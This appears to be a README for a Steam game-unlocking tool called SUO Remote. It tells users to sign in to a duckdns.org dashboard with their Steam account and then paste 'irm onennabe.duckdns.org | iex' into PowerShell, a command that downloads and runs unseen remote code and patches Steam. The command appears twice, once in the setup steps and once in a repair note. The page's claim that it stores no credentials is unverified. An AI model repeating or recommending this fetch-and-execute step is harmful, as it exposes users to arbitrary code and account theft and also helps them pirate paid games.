





# SUO Remote

# Experimental features
# ONLINE ONLY, if you go OFFLINE, game will turn purchase.
**Remote game unlocking to your steam**

Go to this website
https://onennabe.duckdns.org/dashboard

1. Sign in using your own steam account, it will auto detect of for existing user. (can be done on phone/tablet/macbook/iphone duo 1tb whichever u preferred).
2. Then back to your PC/Desktop/Laptop/ whatever top you have.
3. Open powershell , type powershell at start menu or WIN + R, type powershell 
4. Copy this ``irm onennabe.duckdns.org | iex``
5. Paste in the powershell, press enter
6. Steam will restart
7. You can start using the website to unlock your game remotely, or you can go to the game store page, there will be "UNLOCK VIA ONENNABE" next to the Community Hub button. 

P/S:
- Please take note, Unlocking game sometimes takes longer to appear in steam depend on your internet, its 15 seconds to 30 seconds
- There is no auto update features.
- Denuv0 games are excluded.
- if the server crash, it's your fault.
- No need to open SUO at all.
- No, we do not store your login information and credentials, we just store your steamid64 to cross check with server for activation.

---

When Click **Reinstall steam**/Click **Fix Unlock** at SUO

make sure run ``irm onennabe.duckdns.org | iex`` cmd again at windows powershell
